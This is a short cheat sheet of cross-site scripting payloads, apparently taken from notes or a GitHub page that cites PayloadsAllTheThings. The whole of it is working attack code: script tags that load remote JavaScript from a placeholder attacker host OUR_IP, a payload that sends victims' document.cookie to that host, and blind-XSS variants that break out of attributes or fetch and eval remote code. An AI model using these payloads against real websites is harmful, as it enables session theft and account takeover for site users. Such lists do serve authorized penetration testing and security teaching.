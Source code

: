 #### Load remote script
```html
<script src="http://OUR_IP/script.js"></script>
```

#### Send Cookie details to us
```html
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
```

#### Include a remote script by providing its URL
```html
<script src="http://OUR_IP/script.js"></script>
```

#### Identify the vulnerable input field that executed the script
```html
<script src="http://OUR_IP/username"></script>
```

#### Blind XSS Payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
```html
<script src=http://OUR_IP></script>
```

```html
'><script src=http://OUR_IP></script>
```

```html
"><script src=http://OUR_IP></script>
```

```html
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
```

```html
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```

```html
<script>$.getScript("http://OUR_IP")</script>
```

